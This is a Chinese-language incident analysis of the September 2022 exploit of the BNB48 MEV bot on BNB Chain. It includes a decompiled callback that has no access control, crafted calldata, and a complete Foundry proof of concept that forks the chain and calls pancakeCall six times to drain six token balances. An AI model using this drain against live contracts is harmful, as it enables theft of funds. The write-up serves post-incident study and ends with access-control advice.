




# BNB48@MEVBot

## 事件背景

有一个MEV机器人遭到了黑客攻击，损失了六种资产

- 时间：2022.09.13
- 损失金额：$140K

## 交易

- 交易hash：[0xd48758ef48d113b78a09f7b8c7cd663ad79e9965852e872fdfc92234c3e598d2](https://bscscan.com/tx/0xd48758ef48d113b78a09f7b8c7cd663ad79e9965852e872fdfc92234c3e598d2)
- MEVBot（未开源）：[0x64dD59D6C7f09dc05B472ce5CB961b6E10106E1d](https://bscscan.com/address/0x64dd59d6c7f09dc05b472ce5cb961b6e10106e1d#code)

- 攻击合约：[0x5cb11ce550a2e6c24ebfc8df86c5757b596e69c1](https://bscscan.com/address/0x5cb11ce550a2e6c24ebfc8df86c5757b596e69c1)
- 发起攻击的EOA地址：[0xee286554f8b315f0560a15b6f085ddad616d0601](https://bscscan.com/address/0xee286554f8b315f0560a15b6f085ddad616d0601)

## 资金流向



## 攻击过程



## 攻击详细分析

从[攻击过程](https://explorer.phalcon.xyz/tx/bsc/0xd48758ef48d113b78a09f7b8c7cd663ad79e9965852e872fdfc92234c3e598d2)可以知道，此次攻击手法都是一样的，我们分析其中一个就好，黑客都是调用了MEV机器人的`pancakeCall()`。



知道了攻击过程，那么我们就要看看，为什么黑客可以越过权限，直接获取资产。MEV机器人合约没有开源，我们进行[反编译](https://library.dedaub.com/decompile?md5=58c948aa3e23b09bc625f06f37f93c7f)。`pancakeCall()`是闪电贷的回调函数，设置为public是没问题的。

```solidity
function pancakeCall(address varg0, uint256 varg1, uint256 varg2, bytes varg3) public nonPayable { 
    require(msg.data.length - 4 >= 128);
    require(varg0 == varg0);
    require(varg3 <= 0xffffffffffffffff);
    require(4 + varg3 + 31 < msg.data.length);
    require(varg3.length <= 0xffffffffffffffff);
    require(4 + varg3 + varg3.length + 32 <= msg.data.length);
    v0 = new bytes[](varg3.length);
    CALLDATACOPY(v0.data, varg3.data, varg3.length);
    v0[varg3.length] = 0;
    0x10a(v0, varg2, varg1);
}
```

然后他会调用`0x10a()`，分析一下这个方法：



因此，设置好calldata即可攻击，我们来看一下第一个攻击的varg3内容：我们可以发现`ee286554f8b315f0560a15b6f085ddad616d0601`就是发起黑客EOA的地址，后面的一堆0是为了满足`pancakeCall()`中对长度的限制`require(msg.data.length - 4 >= 128)`。

```
000000000000000000000000ee286554f8b315f0560a15b6f085ddad616d0601
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
```

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract Attacker is Test {

    IMEVBOT public mevbot = IMEVBOT(address(0x64dD59D6C7f09dc05B472ce5CB961b6E10106E1d));

    IBSCUSD public BSCUSD = IBSCUSD(address(0x55d398326f99059fF775485246999027B3197955));
    IWBNB public WBNB = IWBNB(address(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c));
    IBUSD public BUSD = IBUSD(address(0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56));
    IUSDC public USDC = IUSDC(address(0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d));
    IBTCB public BTCB = IBTCB(address(0x7130d2A12B9BCbFAe4f2634d864A1Ee1Ce3Ead9c));
    IETH public ETH = IETH(address(0x2170Ed0880ac9A755fd29B2688956BD959F933F8));

    address public token0;
    address public token1;

     function setUp() public {
        vm.createSelectFork("bsc", 21_297_409);

        vm.label(address(mevbot), "mevbot");
        vm.label(address(BSCUSD), "BSCUSD");
        vm.label(address(WBNB), "WBNB");
        vm.label(address(BUSD), "BUSD");
        vm.label(address(USDC), "USDC");
        vm.label(address(BTCB), "BTCB");
        vm.label(address(ETH), "ETH");
    }

    function test_Exploit() public {
        emit log_named_decimal_uint("[Start] Attacker BSCUSD balance before exploit", BSCUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker WBNB balance before exploit", WBNB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker BUSD balance before exploit", BUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker USDC balance before exploit", USDC.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker BTCB balance before exploit", BTCB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[Start] Attacker ETH balance before exploit", ETH.balanceOf(address(this)), 18);

        // 下面分别进行6次攻击

        // 01
        (token0, token1) = (address(BSCUSD), address(BSCUSD));
        // 拿完所有钱
        uint256 BSCUSD_balance = BSCUSD.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        // 构造varg3
        bytes memory data01 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), BSCUSD_balance, 0, data01);

        // 02
        (token0, token1) = (address(WBNB), address(WBNB));
        uint256 WBNB_balance = WBNB.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data02 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), WBNB_balance, 0, data02);

        // 03
        (token0, token1) = (address(BUSD), address(BUSD));
        uint256 BUSD_balance = BUSD.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data03 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), BUSD_balance, 0, data03);

        // 04
        (token0, token1) = (address(USDC), address(USDC));
        uint256 USDC_balance = USDC.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data04 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), USDC_balance, 0, data04);

        // 05
        (token0, token1) = (address(BTCB), address(BTCB));
        uint256 BTCB_balance = BTCB.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data05 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), BTCB_balance, 0, data05);

        // 06
        (token0, token1) = (address(ETH), address(ETH));
        uint256 ETH_balance = ETH.balanceOf(address(mevbot));
        // address(this) = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
        bytes memory data06 = abi.encodePacked(
            bytes32(0x0000000000000000000000007FA9385bE102ac3EAc297483Dd6233D62b3e1496),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000),
            bytes32(0x0000000000000000000000000000000000000000000000000000000000000000)
        );
        mevbot.pancakeCall(address(this), ETH_balance, 0, data06);

        console.log();
        emit log_named_decimal_uint("[After] Attacker BSCUSD balance before exploit", BSCUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker WBNB balance before exploit", WBNB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker BUSD balance before exploit", BUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker USDC balance before exploit", USDC.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker BTCB balance before exploit", BTCB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker ETH balance before exploit", ETH.balanceOf(address(this)), 18);
    }

    function swap(uint256 amount0, uint256 amount1, address to, bytes calldata data) public {
        // 没啥用，只是因为MEV机器人合约需要回调 调用者 的swap方法，因此需要补一下这个方法
    }

}
```

## 建议

无论是否验证合约，在关键的方法中，一定要做权限验证，不要认为合约没有验证就是安全的。本次攻击是产生在于MEV机器人认为自己的合约没有验证，以为很安全，没有人会调用它的方法，因此没有设置权限验证，结果被黑客发现了，然后获利。


